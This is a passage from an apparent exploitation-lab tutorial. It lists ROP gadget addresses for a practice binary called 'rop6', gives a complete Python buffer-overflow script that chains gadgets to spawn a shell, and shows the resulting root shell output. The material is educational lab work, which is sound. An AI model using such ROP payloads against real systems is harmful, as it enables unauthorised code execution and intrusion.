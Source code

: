 ```bash
0x0804857f: pop ebp ; ret  ;  (1 found)
0x080482f5: pop ebx ; ret  ;  (1 found)
0x080485a6: pop ebx ; ret  ;  (1 found)
0x08048499: pop edi ; pop ebp ; ret  ;  (1 found)
0x080484d9: pop edi ; pop ebp ; ret  ;  (1 found)
0x0804857e: pop edi ; pop ebp ; ret  ;  (1 found)
0x0804857d: pop esi ; pop edi ; pop ebp ; ret  ;  (1 found)
```
From the content above, we pick `0x080485a6` (pop; ret) and `0x08048499` (pop; pop; ret).

Alternative, using `objdump -d rop6`, we can find most of this information visually.

With all this information, we go ahead and build a script that puts it all together:
```Python
#!/usr/bin/python

import os
import struct

# These values were found with `objdump -d a.out`.
pop_ret = 0x080485a6
pop_pop_ret = 0x08048499
exec_string = 0x804844d
add_bin = 0x8048461
add_sh = 0x804849c

# First, the buffer overflow.
payload =  "A"*0x6c
payload += "BBBB"

# The add_bin(0xdeadbeef) gadget.
payload += struct.pack("I", add_bin)
payload += struct.pack("I", pop_ret)
payload += struct.pack("I", 0xdeadbeef)

# The add_sh(0xcafebabe, 0x0badf00d) gadget.
payload += struct.pack("I", add_sh)
payload += struct.pack("I", pop_pop_ret)
payload += struct.pack("I", 0xcafebabe)
payload += struct.pack("I", 0xbadf00d)

# Our final destination.
payload += struct.pack("I", exec_string)

print(payload)

os.system("./rop6 \"%s\"" % payload)
```

Executing this:
```bash
root@5daa0de3a6d9:~# python rop6_exploit.py
?AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBa?ﾭޜ?????
 M?
# ls
checksec.sh  rop1    rop1_noprotection	rop2.c		   rop3    rop4    rop5    rop6    rop6_exploit.py
peda	     rop1.c  rop2		rop2_noprotection  rop3.c  rop4.c  rop5.c  rop6.c  rp++
# uname -a
Linux 5daa0de3a6d9 4.9.87-linuxkit-aufs #1 SMP Wed Mar 14 15:12:16 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
```
